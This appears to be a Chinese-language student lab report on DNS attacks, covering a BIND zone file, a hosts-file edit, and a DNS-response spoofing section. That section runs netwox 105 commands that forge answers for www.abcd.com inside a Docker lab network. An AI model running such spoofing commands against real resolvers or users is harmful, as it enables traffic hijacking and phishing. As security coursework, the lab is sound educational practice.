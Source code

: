 

详见`attachment\bank32.com.db`

~~~assembly
$TTL 3D
@       IN      SOA     ns.bank32.com. admin.bank32.com. (	;必须要admin子域名，否则解析失败
															;什么时候查询一下RFC 1035
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS      ns.bank32.com.

www     IN      A       1.2.3.4
ns      IN      A       1.2.3.4

~~~

在user里面输入 `dig www.example.com` , 可以见DNS解析成功

![image-20230423214815970](C:\Users\koazy-0\Desktop\计算机网络安全\实验\lab2\pic\image-20230423214815970.png)



**2.更改host文件**

在尾部添加

~~~/etc/hosts
172.17.0.4         www.example.com
~~~



修改成功

![image-20230423232122372](C:\Users\koazy-0\Desktop\计算机网络安全\实验\lab2\pic\image-20230423232122372.png)

### 2.2 直接欺骗用户响应

工具：netwox 105 ，其用法如下所示

~~~bash
netwox 105 --help2

Usage: netwox 105 -h hostname -H ip -a hostname -A ip [-d device] [-T uint32] [-f filter] [-s spoofip]
Parameters:
 -h|--hostname hostname         hostname {www.example.com}
 -H|--hostnameip ip             hostname IP {1.2.3.4}
 -a|--authns hostname           authoritative name server {ns.example.com}
 -A|--authnsip ip               authns IP {1.2.3.5}
 -d|--device device             device name {Eth0}
 -T|--ttl uint32                ttl in seconds {10}
 -f|--filter filter             pcap filter
 -s|--spoofip spoofip           IP spoof initialization type {best}

#attacker
netwox 105 -h www.abcd.com -H 172.17.0.5 -a ns.abcd.com -A 172.17.0.5 -f "src host 172.17.0.2" -T 60 -d eth0

#在主机内
netwox 105 -h www.abcd.com -H 172.17.0.4 -a ns.abcd.com -A 172.17.0.4 -f "src host 172.17.0.2" -T 60 -d docker0

~~~
